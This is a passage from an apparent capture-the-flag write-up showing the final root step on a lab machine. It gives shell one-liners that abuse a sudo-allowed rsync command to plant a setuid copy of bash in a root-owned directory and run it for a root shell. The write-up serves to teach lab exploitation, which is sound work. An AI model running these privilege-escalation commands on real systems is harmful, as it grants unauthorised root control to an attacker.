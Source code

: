 <img src="/img/yummy_screenshots/Pasted image 20241009160245.png" alt="1" style="width:700px; height:auto;">
<br/>

The cleanup process cleans everything and we do not have time to execute the file, making a one liner to execute the full command  

```bash
echo 'chmod +s /bin/bash' > /home/dev/app-production/rooted;cmod +s /home/dev/app-production/rooted;sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/ --chown root:root /opt/app/; bash /opt/app/rooted;
```

But it did not work so changing the payload to copy the `/bin/bash` binary and do the same steps 


```bash
cp /bin/bash /home/dev/app-production/rooted;chmod +s /home/dev/app-production/rooted;sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/ --chown r
oot:root /opt/app/;/opt/app/rooted -p;
```

And we are `root` 

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009161704.png" alt="1" style="width:700px; height:auto;">
<br/>

The machine was successfully pawned 

<br/> 